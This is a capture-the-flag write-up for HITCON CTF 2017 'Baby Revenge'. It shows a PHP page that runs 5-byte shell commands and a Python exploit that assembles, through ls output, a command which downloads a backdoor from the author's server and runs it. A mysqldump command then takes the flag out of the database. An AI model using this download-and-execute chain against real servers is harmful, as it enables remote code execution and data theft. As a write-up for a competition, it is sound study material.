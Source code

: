 ```yaml
---
layout: post
title: Hitcon CTF 2017 - Baby Revenge
categories: ctf_hitcon2017
keywords: "web"
comments: true
authors:
    - andreafioraldi
---
```


The page's code is:

```php
<?php
    $sandbox = '/home/andrea/Desktop/fff/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR']);
    @mkdir($sandbox);
    @chdir($sandbox);
    if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 5) {
        @exec($_GET['cmd']);
    } else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf ' . $sandbox);
    }
	highlight_file(__FILE__);
```

You can execute a shell command but you have only 5 bytes.

My idea is to use the 'ls' output to write in a file and execute it.

The target file is '\\' so it does not affect the shell script semantics.

The procedure is:
* create a file
* redirect ls output to '\\'
* remove the file.

I want to write 'wget myserver.com' in this way, and after execute it.

In myserver i have a bash http backdoor, so after downloading it i want to execute it.

```python
import requests
import progressbar

#obfuscated code using ls (max 5 byte each command)
#'wget tuly.pythonanywhere.com; sh index.html'
code = """
>IFS\
ls>>\
rm I*
>=:
ls>>\
rm =:
>a=\
ls>>\
rm a*
>wg\
ls>>\
rm w*
>et:\
ls>>\
rm e*
>tul\
ls>>\
rm t*
>y.\
ls>>\
rm y*
>pyt\
ls>>\
rm p*
>hon\
ls>>\
rm h*
>any\
ls>>\
rm a*
>whe\
ls>>\
rm w*
>re.\
ls>>\
rm r*
>com
ls>>\
rm c*
>b=\
ls>>\
rm b*
>mv:\
ls>>\
rm m*
>ind\
ls>>\
rm i*
>ex.\
ls>>\
rm e*
>ht\
ls>>\
rm h*
>ml:\
ls>>\
rm m*
>p
ls>>\
rm p*
>\$a
>\$b
ls>>\
"""

url = "http://52.199.204.34/"

lines = code.split("\n")

print "Writing downloader..."
with progressbar.ProgressBar(max_value=len(lines)) as bar:
    for i in xrange(len(lines)):
        l = lines[i].rstrip()
        if l == "":
            continue
        requests.get(url + "?cmd=" + l)
        bar.update(i)

print "Executing downloader..."
requests.get(url + "?cmd=sh \\")

print "Executing backdoor..."
requests.get(url + "?cmd=sh p")
```

In the home directory of the system we found that the flag is in the MySQL db 

Having a polling backdoor we needed to use one command to exfiltrate the flag from the DB, so we used something like this:
`mysqldump -u user -p'password' flagdb`
Now, there was some issues we faced:
* A lock made our dump query fail
* The database contained chinese characters that as well made our dump query fail
With this in mind we rewrote our query to something like this
`mysqldump -u user -p'password' flagdb --single-transaction --compatible-charset`
